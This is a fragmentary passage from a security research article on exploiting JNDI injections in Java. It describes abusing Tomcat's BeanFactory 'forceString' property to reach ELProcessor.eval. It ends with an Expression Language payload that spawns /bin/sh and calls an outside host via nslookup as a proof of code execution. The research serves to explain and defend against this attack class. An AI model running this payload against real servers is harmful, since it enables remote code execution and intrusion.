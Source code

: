 

### Exploiting JNDI Injections in Java

Michael Stepankin January 3, 2019

This class will be used to extract the real object from the attacker's controlled "javax.naming.Reference". It should exist in the target classpath, implement "javax.naming.spi.ObjectFactory" and have at least a "getObjectInstance" method:

```
public interface ObjectFactory {

/**

 * Creates an object using the location or reference information

 * specified.

 * ...

/*

    public Object getObjectInstance(Object obj, Name name, Context nameCtx,

                                    Hashtable environment)

        throws Exception;

}

```

The "org.apache.naming.factory.BeanFactory" class within Apache Tomcat Server contains a logic for bean creation by using reflection:

...

The "BeanFactory" class creates an instance of arbitrary bean and calls its setters for all properties. The target bean class name, attributes, and attribute's values all come from the Reference object, which is controlled by an attacker.

...

The magic property used here is "forceString". By setting it, for example, to "x=eval", we can make a method call with name 'eval' instead of 'setX', for the property 'x'.

So, by utilising the "BeanFactory" class, we can create an instance of arbitrary class with default constructor and call any public method with one "String" parameter.

One of the classes that may be useful here is "javax.el.ELProcessor". In its "eval" method, we can specify a string that will represent a Java expression language template to be executed.

...



```
{"".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval("new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','nslookup jndi.s.artsploit.com']).start()")}
```



https://www.veracode.com/blog/research/exploiting-jndi-injections-java (Jan 3, 2019)
